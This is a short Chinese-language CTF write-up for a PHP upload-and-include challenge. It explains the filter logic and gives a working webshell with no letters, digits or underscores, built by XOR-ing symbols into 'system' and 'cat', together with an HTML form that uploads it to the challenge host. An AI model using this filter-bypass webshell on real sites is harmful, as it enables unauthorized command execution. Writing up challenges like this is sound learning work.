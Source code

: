 # Patch Peep Huck (w) 

這題一開始要看懂他的題目，他弄的很難看懂

`!!$l='tmp_name'`會把`$l`設成`'tmp_name'`，並且因為NOT運算，最後整句結果是`1`

也就是`$_FILES[!!$l='tmp_name']`實際上就是存取`$_FILES[1]`

`$I['size']>>7`是判斷size不能超過這個大小，否則這邊會變成True，就沒辦法include檔案了

其實重點在最後一個條件

`preg_match('/\w/',join(file($I[$l])))`

這邊是取出我們上傳的檔案的內容，如果裡面有出現英數字或底線，就不給你include

所以我們就是構造個「不用到英數字和底線」的webshell

方法很多，我這邊是用`XOR`去構造`system`字串和我要執行的command

My Payload:

```php
<?=
$💩 = '[[[[@@' ^ '("(/%-';
$💩(('@@['^'#!/')." /????");
```

我用來上傳的html:

```html
<html>
<body>
<form action="http://phuck.fflm.ml/put.php" method="post" enctype="multipart/form-data">
<input type="file" name="1">
<input type="file" name="2">
<input type="submit" name="submit">
</form>
</body>
</html>
```

FLAG: `vxctf{Symb01icExecut10nCanPhuck}`
